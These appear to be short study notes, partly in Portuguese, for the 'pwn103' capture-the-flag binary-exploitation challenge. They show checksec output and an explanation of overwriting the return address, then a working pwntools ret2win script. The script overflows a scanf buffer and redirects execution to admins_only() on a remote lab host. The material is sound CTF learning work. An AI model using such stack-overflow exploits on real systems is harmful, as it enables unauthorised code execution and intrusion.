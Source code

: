 
Jumping to a function

Command file 


```bash

file pwn103.pwn103 
pwn103.pwn103: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3df2200610f5e40aa42eadb73597910054cf4c9f, for GNU/Linux 3.2.0, not stripped


```


Command checksec:

```

checksec --file=pwn103.pwn103
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               2               pwn103.pwn103

```

Pointer do stack a proxima local da memoria que vai /jump

ESP (32bit)
RSP(64bit)

call instrução e que faz o salto para outra função


pointer no stack override:
rsp - Address do jump que será inicio da função admins_only()
ret_address = qualquer edereço de momeria ret 0x00401377
rbp - 8bits
Exercicio overright 0x20


```python
from pwn import *

  

context.binary = binary = ELF("./pwn103.pwn103")

  

# Option 3 is a vulnerable

#scanf writes data from rbp-Ox20

  

#p = process()

  

p = remote("10.10.220.181", 9003)

p.sendline(b"3")

ret_address = p64(0x00401377)

admins_only_address = p64(binary.symbols.admins_only)

payload=b"A"*0x20 + b"B"*0x8 + ret_address + admins_only_address

  


p.sendline(payload)

  

p.interactive()


 ```


